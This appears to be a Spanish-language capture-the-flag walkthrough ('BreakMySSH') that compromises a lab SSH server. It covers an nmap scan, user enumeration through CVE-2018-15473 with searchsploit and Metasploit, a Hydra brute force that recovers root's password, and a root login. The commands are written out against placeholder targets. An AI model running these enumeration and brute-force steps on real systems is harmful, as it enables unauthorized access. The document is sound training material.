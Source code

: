 # BreakMySSH
## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap -sC -sV --open <IP_DEL_OBJETIVO>
```

**Resultado Clave:**

*   `22/tcp open ssh OpenSSH 7.7 (protocol 2.0)`: El puerto 22 está abierto y ejecuta OpenSSH versión 7.7.

## 2. Enumeración de Usuarios SSH

La versión de OpenSSH (7.7) es conocida por ser vulnerable a la enumeración de usuarios (CVE-2018-15473). Esto significa que un atacante puede determinar si un nombre de usuario existe en el sistema sin necesidad de credenciales válidas.

### 2.1. Búsqueda de Exploits con Searchsploit

Utilizamos `searchsploit` para buscar exploits públicos relacionados con OpenSSH 7.7. Esto nos confirma la existencia de vulnerabilidades de enumeración de usuarios.

```bash
searchsploit OpenSSH 7.7
```

**Resultados**

```bash
Exploit Title                                               |  Path  
------------------------------------------------------------- ---------------------------------  
OpenSSH 2.3 < 7.7 - Username Enumeration                     | linux/remote/45233.py  
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)               | linux/remote/45210.py  
OpenSSH < 7.7 - User Enumeration (2)                         | linux/remote/45939.py  
------------------------------------------------------------- ---------------------------------  
Shellcodes: No Results
```

### 2.2. Enumeración con Metasploit

Metasploit Framework ofrece un módulo (`auxiliary/scanner/ssh/ssh_enumusers`) que explota esta vulnerabilidad para enumerar usuarios. Iniciamos `msfconsole` y configuramos el módulo.

```bash
sudo msfdb init && msfconsole
# search OpenSSH
# use auxiliary/scanner/ssh/ssh_enumusers
# options
# set RHOSTS <IP_DEL_OBJETIVO>
# set USER_FILE /path/to/wordlist/users.txt  # Usar un diccionario de usuarios comunes
# run
```

**Usuarios Encontrados:**

El módulo de Metasploit identifica varios usuarios, incluyendo cuentas de sistema (`_apt`, `backup`, `bin`, `daemon`, etc.) y, lo más importante, el usuario `root`. 
## 3. Ataque de Fuerza Bruta SSH

Una vez que tenemos una lista de usuarios válidos, podemos intentar un ataque de fuerza bruta para adivinar sus contraseñas. Nos enfocaremos en el usuario `root`.

### 3.1. Fuerza Bruta con Hydra

```bash
hydra -l root -P /path/to/wordlist/passwords.txt ssh://<IP_DEL_OBJETIVO>
```

**Resultado Clave:**

*   `[22][ssh] host: <IP_DEL_OBJETIVO> login: root password: estrella`

Esto nos proporciona la contraseña para el usuario `root`: **estrella**.

## 4. Acceso SSH y Manejo de Claves de Host

Con el usuario `root` y su contraseña, intentamos acceder al servidor SSH.

### 4.1. Conexión SSH

```bash
ssh root@<IP_DEL_OBJETIVO>
```

**Error Común:**

Es posible que aparezca un mensaje de advertencia como "`WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!`". Esto ocurre si la clave de host del servidor ha cambiado desde la última vez que nos conectamos a esa IP. Para resolverlo, debemos eliminar la entrada antigua de la clave de host de nuestro archivo `known_hosts`.

```bash
ssh-keygen -f "/home/user/.ssh/known_hosts" -R "<IP_DEL_OBJETIVO>"
```

Después de eliminar la entrada, intentamos la conexión SSH nuevamente.

### 4.2. Verificación de Acceso

Una vez conectados, confirmamos que hemos iniciado sesión como `root`.

```bash
whoami
# root
```
